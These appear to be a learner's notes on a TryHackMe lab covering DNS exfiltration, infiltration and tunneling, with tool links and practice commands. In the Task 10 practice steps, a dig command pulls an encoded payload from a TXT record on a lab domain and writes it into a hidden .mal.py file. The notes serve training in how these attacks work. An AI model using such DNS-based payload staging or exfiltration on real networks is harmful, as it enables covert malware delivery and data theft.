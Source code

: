 # Room
https://tryhackme.com/room/dnsmanipulation

# Task 1 - Intro
Examine DNS exfiltration and infiltration

# Task 2 - Installation
Tools used for this room
*  https://github.com/kleosdc/dns-exfil-infil
*  https://github.com/yarrick/iodine
*  https://www.wireshark.org/download.html

# Task 3 - Custom Public DNS Server
Walkthrough from STÖK
* https://www.youtube.com/watch?v=p8wbebEgtDk

# Task 4 - What is DNS?
DNS - Domain Name System - resolves domain names with IP addresses.  DNS servers are distributed around the world and translate something.com into an IP address.  DNS root name servers sit at the top of the DNS hierarchy.  Below the root servers are the TLD servers.  Below them are the actual domain servers

Resources
* https://www.cloudflare.com/learning/dns/glossary/dns-root-server/
* https://www.cloudflare.com/learning/dns/glossary/dns-root-server/
* https://www.cloudflare.com/learning/dns/glossary/dns-zone/
* https://www.iana.org/domains/root/servers
* https://www.cloudflare.com/learning/dns/dns-records/

# Task 5 - What is DNS Exfiltration?
DNS Exfiltration is a cyberattack via DNS with manual and automatted attacks.  Data exfiltration through DNS allows an attacker to transfer a large volume of data that looks like normal DNS traffic.

# Task 6 - DNS Exfiltration - Demo
Demo resources
* https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt
* https://github.com/kleosdc/dns-exfil-infil/blob/main/packety.py
* https://github.com/kleosdc/dns-exfil-infil/blob/main/packetyGrabber.py

# Task 7 - DNS Exfiltration - Practice
SSH to the practice VM and run the commands

tshark
```
tshark -r [filename].pcap -T fields -e dns.qry.name
```

# Task 8 - What is DNS Infiltration
Infiltration defines the process where malicious code is ran to manipulate DNS servers, primarily used for dropping or malware staging, TXT records are usually used to infiltrate data into a network

# Task 9 - DNS Infiltration - Demo
Resources
* https://github.com/kleosdc/dns-exfil-infil

# Task 10 - DNS Infiltration - Practice
SSH to the practice VM and run the commands

grab TXT record
```
dig +short code.badbaddoma.in TXT | sed -e 's/\"//g' > .mal.py
```
run decoder
```
python3 ~/dns-exfil-infil/packetySimple.py
```
cat decoded output
```
cat .mal.py
import os; print(os.uname()[2])
```
grab flag
```
python -c 'import os; print(os.uname()[2])'
```

# Task 11 - DNS Tunneling
DNS is rarely monitored and can be used to tunnel other traffic

Tools
* https://code.kryo.se/iodine/

# Task 12 - End